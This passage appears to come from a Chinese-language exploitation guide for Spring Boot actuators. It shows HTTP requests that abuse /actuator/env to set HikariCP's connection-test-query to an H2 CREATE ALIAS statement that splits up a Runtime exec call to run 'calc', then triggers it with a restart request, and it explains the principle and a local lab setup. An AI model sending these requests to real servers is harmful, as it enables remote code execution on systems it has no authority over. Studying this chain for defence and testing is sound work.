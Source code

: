 spring 2.x（无回显执行命令）

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');"}


```

##### 步骤二：重启应用

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded



```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json



```

#### 漏洞原理：

1.  spring.datasource.hikari.connection-test-query 属性被设置为一条恶意的 `CREATE ALIAS` 创建自定义函数的 SQL 语句
    
2.  其属性对应 HikariCP 数据库连接池的 connectionTestQuery 配置，定义一个新数据库连接之前被执行的 SQL 语句
    
3.  restart 重启应用，会建立新的数据库连接
    
4.  如果 SQL 语句中的自定义函数还没有被执行过，那么自定义函数就会被执行，造成 RCE 漏洞
    

#### 漏洞分析：

 remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database

#### 漏洞环境：

repository/springboot-h2-database-rce

正常访问：

```
http://127.0.0.1:9096/actuator/env


```
